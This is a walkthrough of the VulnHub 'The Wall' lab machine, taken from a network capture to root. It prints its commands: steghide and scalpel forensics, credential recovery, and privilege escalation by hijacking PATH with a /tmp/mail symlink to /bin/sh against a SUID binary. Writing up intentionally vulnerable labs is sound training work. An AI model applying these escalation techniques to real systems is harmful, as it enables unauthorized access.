

## Vulnhub - The Wall

This time it's The Wall by Xerubus. I've been hearing how cool this box is for awhile now and Pink Floyd is one of my all time favorites so time to finally do it. Something different here, nmap shows no ports open. After thinking for a minute we look to see what kind of traffic is being sent in the local subnet.
```cmd
$ tcpdump -i eth0 host 192.168.147.176
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
21:16:12.175203 IP (tos 0x0, ttl 64, id 32368, offset 0, flags [DF], proto TCP (6), length 64)
    192.168.147.176.30636 > 192.168.147.254.1337: Flags [S], cksum 0x6b15 (correct), seq 418466354, win 16384, options [mss 1460,nop,nop,sackOK,nop,wscale 3,nop,nop,TS val 2508811350 ecr 0], length 0
```

So it's broadcasting something to port 1337? Maybe we should listen on that port.

```bash
$ nc -nlvp 1337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 192.168.147.176.
Ncat: Connection from 192.168.147.176:13060.

                       .u!"`
                   .x*"`
               ..+"NP
            .z""   ?
          M#`      9     ,     ,
                   9 M  d! ,8P'
                   R X.:x' R'  ,
                   F F' M  R.d'
                   d P  @  E`  ,
      ss           P  '  P  N.d'
       x         ''        '
       X               x             .
       9     .f       !         .    $b
       4;    $k      /         dH    $f
       'X   ;$$     z  .       MR   :$
        R   M$$,   :  d9b      M'   tM
        M:  #'$L  ;' M `8      X    MR
        `$;t' $F  # X ,oR      t    Q;
         $$@  R$ H :RP' $b     X    @'
         9$E  @Bd' $'   ?X     ;    W
         `M'  `$M d$    `E    ;.o* :R   ..
          `    '  "'     '    @'   '$o*"'   
   
              The Wall by @xerubus
          -= Welcome to the Machine =-

If you should go skating on the thin ice of modern life, dragging behind you the silent reproach of a million tear-stained eyes, don't be surprised when a crack in the ice appears under your feet. - Pink Floyd, The Thin Ice
```
Thats pretty awesome but what next? Sending a fresh nmap we can now see an open port and a webserver.
```bash
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    OpenBSD httpd
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: OpenBSD httpd
|_http-title: Site doesn't have a title (text/html).
```
Checking the page, we see a picture of everyone and nothing else. The comment in the source is our next hint. 


```html
<html>
<body bgcolor="#000000">
<center></center>
</body>
</html>


<!--If you want to find out what's behind these cold eyes, you'll just have to claw your way through this disguise. - Pink Floyd, The Wall

Did you know? The Publius Enigma is a mystery surrounding the Division Bell album.  Publius promised an unspecified reward for solving the 
riddle, and further claimed that there was an enigma hidden within the artwork.

737465673d3333313135373330646262623337306663626539373230666536333265633035-->
```
If we decode that string as hex, we get this value ```steg=33115730dbbb370fcbe9720fe632ec05``` which is the md5 of "divisionbell". After trying that album name as files or a folder on the webserver, we run steghide on the first image we found with that as the password.
```bash
$ steghide extract -sf pink_floyd.jpg 
Enter passphrase: 
wrote extracted data to "pink_floyd_syd.txt".
$ cat pink_floyd_syd.txt 
Hey Syd,

I hear you're full of dust and guitars? 

If you want to See Emily Play, just use this key: U3lkQmFycmV0dA==|f831605ae34c2399d1e5bb3a4ab245d0

Roger

Did you know? In 1965, The Pink Floyd Sound changed their name to Pink Floyd.  The name was inspired
by Pink Anderson and Floyd Council, two blues muscians on the Piedmont Blues record Syd Barret had in 
his collection.
```
The base64 part is "SydBarrett" then a | then more md5 "pinkfloydrocks". So we have the key to see Emily play and maybe Syd's password, what now then. Maybe start making a wordlist of these things found so far. After thinking some more, we look again at the last hint and notice "1965". Maybe something is running on this port?
```bash
$ nc -nv 192.168.147.176 1965
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.147.176:1965.
SSH-2.0-OpenSSH_7.0
^C
```
Awesome let's try Syd's creds on it.
```bash
$ ssh SydBarrett@192.168.147.176 -p 1965
SydBarrett@192.168.147.176's password: 
Could not chdir to home directory /home/SydBarrett: No such file or directory
This service allows sftp connections only.
Connection to 192.168.147.176 closed.
```
Hmm that's interesting sftp connections only. Connecting to that we get bio of the group to add to our wordlist and a picture of Syd having a smoke.
```bash
$ sftp -P 1965 SydBarrett@192.168.147.176
SydBarrett@192.168.147.176's password:
Connected to 192.168.147.176.
sftp> ls -lah
drwxr-x---    ? 0        1000         512B Oct 24  2015 .
drwxr-x---    ? 0        1000         512B Oct 24  2015 ..
drwxr-xr-x    ? 0        1000         512B Oct 24  2015 .mail
-rw-r--r--    ? 0        1000         1.9K Oct 25  2015 bio.txt
-rw-r--r--    ? 0        1000         849K Oct 24  2015 syd_barrett_profile_pic.jpg
```


In the .mail folder we find some sent mail and a .stash with a compressed file, eclipsed_by_the_moon.
```bash
$ file eclipsed_by_the_moon 
eclipsed_by_the_moon: gzip compressed data, last modified: Wed Nov 11 00:15:47 2015, from Unix
$ cat sent-items 
Date: Sun, 24 Oct 1965 18:45:21 +0200
From: Syd Barrett <syd@pink.floyd>
Reply-To: Syd Barret <syd@pink.floyd>
To: Roger Waters <roger@pink.floyd>
Subject: Had to hide the stash

Roger... I had to hide the stash. 

Usual deal.. just use the scalpel when you find it.

Ok, sorry for that.

Rock on man

"Syd"
```
Let's see whats in this file and run scalpel on it then. First un tar it
```bash
root@splinter:~/labs/vulnhub/thewall# tar -zxvf eclipsed_by_the_moon
eclipsed_by_the_moon.lsd
root@splinter:~/labs/vulnhub/thewall# file eclipsed_by_the_moon.lsd 
eclipsed_by_the_moon.lsd: DOS/MBR boot sector, code offset 0x3c+2, OEM-ID "MSDOS5.0", sectors/cluster 2, reserved sectors 8, root entries 512, Media descriptor 0xf8, sectors/FAT 188, sectors/track 63, heads 255, hidden sectors 2048, sectors 96256 (volumes > 32 MB), serial number 0x9e322180, unlabeled, FAT (16 bit)
```
Interesting a DOS volume are they always named as .lsd files? 
```bash
root@splinter:~/labs/vulnhub/thewall# scalpel eclipsed_by_the_moon.lsd 
Scalpel version 1.60
Written by Golden G. Richard III, based on Foremost 0.69.

Opening target "/root/labs/vulnhub/thewall/eclipsed_by_the_moon.lsd"

Image file pass 1/2.
eclipsed_by_the_moon.lsd: 100.0% |*********************************************************************************************************************************************************|   47.0 MB    00:00 ETAAllocating work queues...
Work queues allocation complete. Building carve lists...
Carve lists built.  Workload:
gif with header "\x47\x49\x46\x38\x37\x61" and footer "\x00\x3b" --> 0 files
gif with header "\x47\x49\x46\x38\x39\x61" and footer "\x00\x3b" --> 0 files
jpg with header "\xff\xd8\xff\xe0\x00\x10" and footer "\xff\xd9" --> 1 files
png with header "\x50\x4e\x47\x3f" and footer "\xff\xfc\xfd\xfe" --> 0 files
txt with header "\x2d\x2d\x2d\x2d\x2d\x42\x45\x47\x49\x4e\x20\x50\x47\x50" and footer "" --> 0 files
zip with header "\x50\x4b\x03\x04" and footer "\x3c\xac" --> 0 files
java with header "\xca\xfe\xba\xbe" and footer "" --> 0 files
Carving files from image.
Image file pass 2/2.
eclipsed_by_the_moon.lsd: 100.0% |*********************************************************************************************************************************************************|   47.0 MB    00:00 ETAProcessing of image file complete. Cleaning up...
Done.
Scalpel is done, files carved = 1, elapsed = 1 seconds.
```
We open the new picture it looks like a good time, Roger is frying so hard he told us his password that easy.


Next up, we try to ssh in as Roger with the password "hello_is_there_anybody_in_there" and it works.
```bash
$ ssh -p 1965 RogerWaters@192.168.147.177
RogerWaters@192.168.147.177's password: 
OpenBSD 5.8 (GENERIC) #1066: Sun Aug 16 02:33:00 MDT 2015

                       .u!"`
                   .x*"`
               ..+"NP
            .z""   ?
          M#`      9     ,     ,
                   9 M  d! ,8P'
                   R X.:x' R'  ,
                   F F' M  R.d'
                   d P  @  E`  ,
      ss           P  '  P  N.d'
       x         ''        '
       X               x             .
       9     .f       !         .    $b
       4;    $k      /         dH    $f
       'X   ;$$     z  .       MR   :$
        R   M$$,   :  d9b      M'   tM
        M:  #'$L  ;' M `8      X    MR
        `$;t' $F  # X ,oR      t    Q;
         $$@  R$ H :RP' $b     X    @'
         9$E  @Bd' $'   ?X     ;    W
         `M'  `$M d$    `E    ;.o* :R   ..
          `    '  "'     '    @'   '$o*"'   
$ 
```

So BSD 5.8 interesting. We notice some loot in his home folder so we just transfer it back over with sftp.

```bash
$ sftp -P 1965 RogerWaters@192.168.147.177
RogerWaters@192.168.147.177's password: 
Connected to 192.168.147.177.
sftp> ls -lah
drwx------    ? 1002     1002         512B Oct 27  2015 .
drwxr-xr-x    ? 0        0            512B Oct 24  2015 ..
-rw-r--r--    ? 1002     1002          87B Oct 24  2015 .Xdefaults
-rw-r--r--    ? 1002     1002         773B Oct 24  2015 .cshrc
-rw-r--r--    ? 1002     1002         103B Oct 24  2015 .cvsrc
-rw-r--r--    ? 1002     1002         398B Oct 25  2015 .login
-rw-r--r--    ? 1002     1002         175B Oct 24  2015 .mailrc
-rw-r--r--    ? 1002     1002         218B Oct 24  2015 .profile
drwx------    ? 1002     1002         512B Oct 25  2015 .ssh
-rw-r--r--    ? 1002     1002         2.8K Oct 25  2015 bio.txt
-rw-r--r--    ? 1002     1002           0B Oct 27  2015 mbox
-rw-r--r--    ? 1002     1002        47.0K Oct 25  2015 roger_waters_profile_pic.jpg
-rw-r--r--    ? 1002     1002        16.2K Oct 25  2015 secret-diary
sftp> get *.*
```
The stuff in here has a bio on Roger, another profile pic, and this secret diary file detailing some of his alleged exploits. This all might be useful for our wordlist or something later. 


So right now we have control of Syd and Rogers accounts, assuming we have to get into the rest that have been modified recently.
```bash
$ ls -lah
total 28
drwxr-xr-x   7 root           wheel           512B Oct 24  2015 .
drwxr-xr-x  13 root           wheel           512B Oct 24  2015 ..
drwx------   4 DavidGilmour   DavidGilmour    512B Oct 28  2015 DavidGilmour
drwx------   3 NickMason      NickMason       512B Aug  8  2015 NickMason
drwx------   3 RichardWright  RichardWright   512B Nov 27  2015 RichardWright
drwx------   3 RogerWaters    RogerWaters     512B Oct 28  2015 RogerWaters
drwxr-xr-x   4 root           SydBarrett      512B Oct 24  2015 SydBarrett
```


Looking over SUID files, we see a couple in usr/local/bin, brick and shineon. If we run brick and answer the trivia, we can get switched into Nick Mason's account.
```bash
$ find / -perm -4000 -exec ls -al -print 2>/dev/null {} \;
51992 -r-sr-xr-x  3 0  7  24700 Aug 16  2015 /usr/bin/chfn
51992 -r-sr-xr-x  3 0  7  24700 Aug 16  2015 /usr/bin/chpass
51992 -r-sr-xr-x  3 0  7  24700 Aug 16  2015 /usr/bin/chsh
52016 -r-sr-xr-x  1 0  7  20612 Aug 16  2015 /usr/bin/doas
52079 -r-sr-sr-x  1 0  1  30560 Aug 16  2015 /usr/bin/lpr
52080 -r-sr-sr-x  1 0  1  26428 Aug 16  2015 /usr/bin/lprm
52104 -r-sr-xr-x  1 0  7  22248 Aug 16  2015 /usr/bin/passwd
52168 -r-sr-xr-x  1 0  7  14688 Aug 16  2015 /usr/bin/su
52258 -r-sr-xr-x  1 0  7  9836 Aug 16  2015 /usr/libexec/lockspool
52281 -r-sr-xr-x  1 0  7  452788 Aug 16  2015 /usr/libexec/ssh-keysign
3280 -rws--s--x  1 1001  1001  7291 Aug  8  2015 /usr/local/bin/brick
3281 -rwsr-s---  1 1004  1003  7524 Oct 25  2015 /usr/local/bin/shineon
4053 -r-sr-xr-x  1 0  7  127664 Aug  8  2015 /usr/local/bin/sudo
26048 -r-sr-sr-x  2 0  72  22292 Aug 16  2015 /usr/sbin/authpf
26048 -r-sr-sr-x  2 0  72  22292 Aug 16  2015 /usr/sbin/authpf-noip
26126 -r-sr-x---  1 0  69  124540 Aug 16  2015 /usr/sbin/pppd
26176 -r-sr-xr-x  2 0  7  30772 Aug 16  2015 /usr/sbin/traceroute
26176 -r-sr-xr-x  2 0  7  30772 Aug 16  2015 /usr/sbin/traceroute6
sh25809 -r-sr-xr-x  1 0  7  220580 Aug 16  2015 /sbin/ping
25810 -r-sr-xr-x  1 0  7  244580 Aug 16  2015 /sbin/ping6
25817 -r-sr-x---  1 0  5  230156 Aug 16  2015 /sbin/shutdown
```

```bash
$ brick

What have we here, laddie?
Mysterious scribbings?
A secret code?
Oh, poems, no less!
Poems everybody!

Who is the only band member to be featured on every Pink Floyd album? : Nick Mason
$ id
uid=1001(NickMason) gid=1001(NickMason) groups=1002(RogerWaters)
```
We read over his bio and profile pic. What in the hell is that added to the bio.txt?
```bash
$ cat bio.txt                                                                                                                                                                                                     
"Nicholas Berkeley "Nick" Mason (born 27 January 1944) is an English musician and composer, best known as the drummer of Pink Floyd. He is the only constant member of the band since its formation in 1965. Despite solely writing only a few Pink Floyd songs, Mason has co-written some of Pink Floyd's most popular compositions such as "Echoes" and "Time".

Mason is the only Pink Floyd member to be featured on every one of their albums. It is estimated that as of 2010, the group have sold over 250 million records worldwide,[1][2] including 75 million units sold in the United States.

He competes in auto racing events, such as the 24 Hours of Le Mans.

On 26 November 2012, Mason received an Honorary Doctor of Letters from the University of Westminster at the presentation ceremony of the School of Architecture and Built Environment (he had studied architecture at the University's predecessor, Regent Street Polytechnic, 1962-1967)."

I wander if anyone is reading these bio's?  Richard Wright.. if you're reading this, I'm not really going to cut you into little pieces.  I was just having a joke.  Anyhow, I have now added you to thewall.  You're username is obvious. You'll find your password in my profile pic.

Source: Wikipedia (https://en.wikipedia.org/wiki/Nick_Mason)
```


Looking at his profile picture for Richard's password, it's an Ogg Vorbis file?
```bash
$ file nick_mason_profile_pic.jpg          
nick_mason_profile_pic.jpg: Ogg data, Vorbis audio, stereo, 44100 Hz, created by: Xiph.Org libVorbis I
```

So we listen to it and it has some morse code going off in the background. Once we realize theres a space between each character it's not so bad to actually write down by hand. Each character can be 2-4 dashes or dots? Once we write it all down we can get was seems to be Richard's creds.


.-...-.-......-.-.-...--.-...--.....-.--------.....-...--..-..-.-...-.......-
RICHARDWRIGHT1943FARFISA


So let's su to Richard Wright with the above credentials and his mbox has something in it this time along with another image.
```bash
$ cat mbox                                                                                                                                                                                                        
From DavidGilmour@thewall.localdomain Tue Oct 27 01:41:18 2015
Return-Path: DavidGilmour@thewall.localdomain
Delivered-To: RichardWright@thewall.localdomain
Received: from localhost (thewall.localdomain [local])
        by thewall.localdomain (OpenSMTPD) with ESMTPA id 3ad74b19
        for <RichardWright@thewall.localdomain>;
        Tue, 27 Oct 2015 01:41:18 +1000 (AEST)
From: David Gilmour <DavidGilmour@thewall.localdomain>
Date: Tue, 27 Oct 2015 02:41:18 +1000 (AEST)
Message-Id: <9059884549097248741.enqueue@thewall.localdomain>
To: RichardWright@thewall.localdomain
Subject: Re: Brain Damage
Status: RO

G'day Rick.. how's the ivory tickling going?

There's plenty of bricks in the wall, so I'll give you a few when we catch up.

For now, just use that command I gave you with the menu.

Dave

----------

Hey Dave,
I feel like we're back in the studio for The Dark Side of the Moon.
Sorry to keep bugging you, but can you tell me again how to do things
when I'm on thewall.
Rick
```
So the command with the menu, does he mean the shineon binary with the 5 menu options?


 
We make sure to checkout the bio after last time. 
```bash
$ cat bio.txt                                                                                                                                                                                                     
"Richard William "Rick" Wright (28 July 1943 – 15 September 2008) was an English musician, composer, singer and songwriter. He was a founder member, keyboardist and vocalist of the progressive rock band Pink Floyd, performing on the majority of the group's albums including The Piper at the Gates of Dawn, The Dark Side of the Moon, Wish You Were Here and The Division Bell, and playing on all of their tours.[3]

Wright grew up in Hatch End in London and met future Pink Floyd bandmates Roger Waters and Nick Mason while studying at the Regent Street Polytechnic. The group found commercial success in 1967 with frontman Syd Barrett before Barrett's instability led to him being replaced by David Gilmour, with Wright taking over songwriting duties with Waters. Initially a straightforward singer / songwriter, Wright later acted as an arranger to Waters and Gilmour's compositions. He began to contribute less towards the end of the 1970s and left the band after touring The Wall in 1981. He rejoined the band as a session player in 1987 for A Momentary Lapse of Reason, and became a full-time member again for The Division Bell in 1994. Sessions with Wright during this period were later released on the album The Endless River. Away from the Floyd, Wright recorded two solo albums, including a collaboration with Anthony Moore on Broken China, and briefly formed the duo Zee. After rejoining Waters, Mason and Gilmour as Pink Floyd for Live 8 in 2005, he became part of Gilmour's regular solo touring band, singing occasional lead on songs such as "Arnold Layne", before his death in September 2008.

Overshadowed by band mates Barrett, Waters and Gilmour and being the quietest and most reserved member of Pink Floyd, Wright's contributions have been overlooked, but his death brought a reappraisal and recognition of his talents. His jazz and improvisation influences and keyboard performances were an important part of the Pink Floyd sound; being a prominent player of the Farfisa and Hammond organs and the Kurzweil synthesizer. Wright sang regularly in the band, and occasionally took the lead vocal on Pink Floyd songs such as "Time", "Remember a Day" and "Wearing the Inside Out"."

Source: Wikipedia (https://en.wikipedia.org/wiki/Richard_Wright_%28musician%29)
```

Now it looks like we can execute that other SUID file shineon. It gives us a menu with several options that run linux binarys or do things, then we notice in the check mail option that linux mail is called with no absolute path.
```bash
$ shineon 
Menu

1. Calendar
2. Who
3. Check Internet
4. Check Mail
5. Exit
```

```bash
$ file /usr/local/bin/shineon
/usr/local/bin/shineon: ELF 32-bit LSB shared object, Intel 80386, version 1
```


```bash
$ strings /usr/local/bin/shineon                                                                                                                                                                                  
/usr/libexec/ld.so
OpenBSD
OpenBSD
libc.so.80.1
printf
__stack_smash_handler
__srget
getc
puts
system
_thread_atfork
environ
__progname
__cxa_atexit
__sF
__isthreaded
scanf
_Jv_RegisterClasses
__got_start
__got_end
__data_start
_edata
__bss_start
__progname_storage
__fini
__init_tcb
QRP1
[^_]
Menu
1. Calendar
2. Who
3. Check Internet
4. Check Mail
5. Exit
Quitting program!
Invalid choice!
load_menu
Time - The Dark Side of the Moon
/usr/bin/cal
Press ENTER to continue.
Echoes - Meddle
/usr/bin/who
Is There Anybody Out There? - The Wall
/sbin/ping -c 3 www.google.com
Keep Talking- The Division Bell
mail
```

Let's create a symlink to the mail command in /tmp that runs /bin/sh instead then update our PATH to call it first.

```bash
$ id                                                                         
uid=1003(RichardWright) gid=1003(RichardWright) groups=1003(RichardWright) 
$ ln -s /bin/sh /tmp/mail
$ export PATH=/tmp:$PATH
$ shineon
Menu

1. Calendar
2. Who
3. Check Internet
4. Check Mail
5. Exit
4
Keep Talking- The Division Bell
mail: Cannot determine current working directory
$ id
uid=1003(RichardWright) euid=1004(DavidGilmour) gid=1003(RichardWright) groups=1003(RichardWright)
```
Awesome then we have a shell as David Gilmour, must be getting close now.


Dave has another message in his mail, and this random text file also might be something.
```bash
$ cat mbox                                                                                                                                                                                                        
From RichardWright@thewall.localdomain Tue Oct 27 01:41:18 2015
Return-Path: RichardWright@thewall.localdomain
Delivered-To: DavidGilmour@thewall.localdomain
Received: from localhost (thewall.localdomain [local])
        by thewall.localdomain (OpenSMTPD) with ESMTPA id 3ad74b19
        for <DavidGilmour@thewall.localdomain>;
        Tue, 27 Oct 2015 01:41:18 +1000 (AEST)
From: Richard Wright <RichardWright@thewall.localdomain>
Date: Tue, 27 Oct 2015 01:41:18 +1000 (AEST)
Message-Id: <4059885549097245741.enqueue@thewall.localdomain>
To: DavidGilmour@thewall.localdomain
Subject: Brain Damage
Status: RO

Hey Dave,
I feel like we're back in the studio for The Dark Side of the Moon.
Sorry to keep bugging you, but can you tell me again how to do things
when I'm on thewall.
Rick
```
```bash
$ cat anotherbrick.txt                                                                                                                                                                                            
# Come on you raver, you seer of visions, come on you painter, you piper, you prisoner, and shine. - Pink Floyd, Shine On You Crazy Diamond

New website for review:    pinkfloyd1965newblogsite50yearscelebration-temp/index.php

# You have to be trusted by the people you lie to. So that when they turn their backs on you, you'll get the chance to put the knife in. - Pink Floyd, Dogs 
```
So we need to get to that new website for review? After flailing around some, we run strings at his profile picture, another password is inside.

```bash
--snip--
Nn_}
^=>W
{w|6
Om?OoA
who_are_you_and_who_am_i

$ su DavidGilmour
Password:
$ id
uid=1004(DavidGilmour) gid=1004(DavidGilmour) groups=1004(DavidGilmour), 1(daemon), 67(www), 1005(welcometothemachine)
```

Now we have an actual uid shell as David, notice now we are in the welcometothemachine group. They own an htdocs folder in the webroot that contains the temp website mentioned earlier.

```bash
$ ls -lah                                           
total 44                                              
drwxr-xr-x  11 root  daemon                512B Oct 27  2015 .
drwxr-xr-x  20 root  wheel                 512B Aug 16  2015 ..
drwxr-xr-x   2 root  daemon                512B Oct 27  2015 bin
drwx-----T   2 www   daemon                512B Aug 16  2015 cache
drwxr-xr-x   2 root  daemon                512B Oct 24  2015 cgi-bin                        drwxr-xr-x   4 root  daemon                512B Oct 27  2015 conf
drwxr-x---   4 www   welcometothemachine   512B Nov 27  2015 htdocs
drwxr-xr-x   2 root  daemon                512B Oct 28  2015 logs
drwxr-xr-x   2 root  daemon                512B Aug 20 05:54 run
drwx-----T   2 www   www                   512B Oct 27  2015 tmp
drwxr-xr-x   3 root  daemon                512B Oct 27  2015 usr
$ cd htdocs/
$ ls -lahR                                   
total 244                                            
drwxr-x---   4 www   welcometothemachine   512B Nov 27  2015 .
drwxr-xr-x  11 root  daemon                512B Oct 27  2015 ..
-rw-r--r--   1 www   www                   539B Oct 25  2015 index.html
-rw-r--r--   1 www   www                   112K Oct 25  2015 pink_floyd.jpg
drwxr-xr-x   7 www   www                   512B Aug  8  2015 pinkfloyd1965newblogsite50yearscelebration-temp
drwxr-xr-x   2 root  welcometothemachine   512B Aug  8  2015 welcometothemachine
```


Its our image of the guys from the start of the vm, the new website for review folder that was just mentioned, and then something else in welcometothemachine. Looking through this temp blog folder, the index.php has another comment we might need soon.

```html
</html>

<!--Through the window in the wall, come streaming in on sunlight wings, a million bright ambassadors of morning. - Pink Floyd, Echoes
Can you see what the Dog sees? Perhaps hints of lightness streaming in on sunlight wings?-->
```
We see a bunch php files in here that are all owned by www and contain no passwords or they might be more interesting. There is another suid binary, PinkFloyd also in the welcometothemachine folder.

```bash
$ ls -lah
total 24
drwxr-xr-x  2 root  welcometothemachine   512B Aug  8  2015 .
drwxr-x---  4 www   welcometothemachine   512B Nov 27  2015 ..
-rws--s---  1 root  welcometothemachine   7.3K Nov 27  2015 PinkFloyd
$ PinkFloyd                                                                                                                                                                                                       
Please send your answer to Old Pink, in care of the Funny Farm. - Pink Floyd, Empty Spaces
Answer: 
```
Checking out that path in a browser, we get another cool picture and this 50 years of floyd blog with some actual pages and functionality this time.



We can see a page= paramter on each page and read the source, but anything we try to include would be running as www anyways so I guess there must be something else to find here. 


I can't really get the riddle of this thing yet. We try random strings and stuff found around the machine to mess with it.

```bash
$ PinkFloyd                                                                                                                                                                                                       
Please send your answer to Old Pink, in care of the Funny Farm. - Pink Floyd, Empty Spaces
Answer: Brain Damage

Denied....
If I had my way, I'd have all of ya shot. - Pink Floyd, In The Flesh
```
After awhile we get a hint to go look at the latest picture we found...there is a value hidden in the darker section at the bottom amongst the tree roots, "/welcometothemachine" followed by a ```50696e6b466c6f796435305965617273``` which is "PinkFloyd50Years" in hex. If we open this in gimp and play with the contrast/brightness settings we can see it clearer.


We use that string as our answer and something happens.
```bash
$ PinkFloyd  
Please send your answer to Old Pink, in care of the Funny Farm. - Pink Floyd, Empty Spaces
Answer: 50696e6b466c6f796435305965617273

Fearlessly the idiot faced the crowd smiling. - Pink Floyd, Fearless

Congratulations... permission has been granted.
You can now set your controls to the heart of the sun!
$ id
uid=1004(DavidGilmour) gid=1004(DavidGilmour) groups=1004(DavidGilmour), 1(daemon), 67(www), 1005(welcometothemachine)
```
Hmm so what permissions have been changed? A quick look for anything modified in the last few minutes.
```bash
$ find / -mmin -10 -type f 2>/dev/null
/etc/sudoers
/var/cron/log
/var/log/pflog                                        
```
Looks like the sudoers file has changed somehow it might be all over.

```bash
$ sudo -l
Password:
Matching Defaults entries for DavidGilmour on thewall:
    env_keep+="FTPMODE PKG_CACHE PKG_PATH SM_PATH SSH_AUTH_SOCK"

User DavidGilmour may run the following commands on thewall:
    (ALL) SETENV: ALL
    (ALL) SETENV: ALL
```
Now we can run all commands as root good deal.

```bash
$ sudo cat /root/flag.txt

"The band is fantastic, that is really what I think. Oh, by the way, which one is Pink? - Pink Floyd, Have A Cigar"

                   Congratulations on rooting thewall!

   ___________________________________________________________________
  | |       |       |       |       |       |       |       |       | |
  |_|_______|_______|______ '__  ___|_______|_______|_______|_______|_|
  |     |       |       |   |  )      /         |       |       |     |
  |_____|_______|_______|__ |,' , .  | | _ , ___|_______|_______|_____|
  | |       |       |      ,|   | |\ | | ,' |       |       |       | |
  |_|_______|_______|____ ' | _ | | \| |'\ _|_______|_______|_______|_|
  |     |       |       |   \  _' '  ` |  \     |       |       |     |
  |_____|_______|_______|_  ,-'_ _____ | _______|_______|_______|_____|
  | |       |       |   ,-'|  _     |       |       |       |       | |
  |_|_______|_______|__  ,-|-' |  ,-. \ /_.--. _____|_______|_______|_|
  |     |       |          |   |  | |  V  |   ) |       |       |     |
  |_____|_______|_______|_ | _ |-'`-'  |  | ,' _|_______|_______|_____|
  | |       |       |      |        |  '  ;'        |       |       | |
  |_|_______|_______|______"|_____  _,- o'__|_______|_______|_______|_|
  |     |       |       |       _,-'    .       |       |       |     |
  |_____|_______|_______|_ _,--'\      _,-'_____|_______|_______|_____|
  | |       |       |     '     ||_||-' _   |       |       |       | |
  |_|_______|_______|_______|__ || ||,-'  __|_______|_______|_______|_|
  |     |       |       |       |  ||_,-'       |       |       |     |
  |_____|_______|______.|_______.__  ___|_______|_______|_______|_____|
  | |       |       |   \    |     /        |       |       |       | |
  |_|_______|_______|___ \ __|___ /,  _ |   | ______|_______|_______|_|
  |     |       |       | \      // \   |   |   |       |       |     |
  |_____|_______|_______|_ \ /\ //--'\  |   | __|_______|_______|_____|
  | |       |       |       '  V/    |  |-' |__,    |       |       | |
  |_|_______|_______|_______|_______ _______'_______|_______|_______|_|
  |     |       |       |       |       |       |       |       |     |
  |_____|_______|_______|_______|_______|_______|_______|_______|_____|
  |_________|_______|_______|_______|_______|_______|_______|_______|_|

                  Celebrating 50 years of Pink Floyd!
             Syd Barrett (RIP), Nick Mason, Roger Waters,
               Richard Wright (RIP), and David Gilmour.


** Shoutouts **
+ @vulnhub for making it all possible
+ @rastamouse @thecolonial - "the test bunnies"

-=========================================-
-  xerubus (@xerubus - www.mogozobo.com)  -
-=========================================-
$ sudo su
# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
# 
```

Thanks Xerubus for the fun times with that one. The final step nearly broke me as I was assuming some kind of binary exploit was needed and totally forgot to look closely at the last picture we found. A bit of forensics on this was a nice changeup compared to the usual things we're doing on these machines. Thanks again Xerubus and Vulnhub for everything see yall next time.


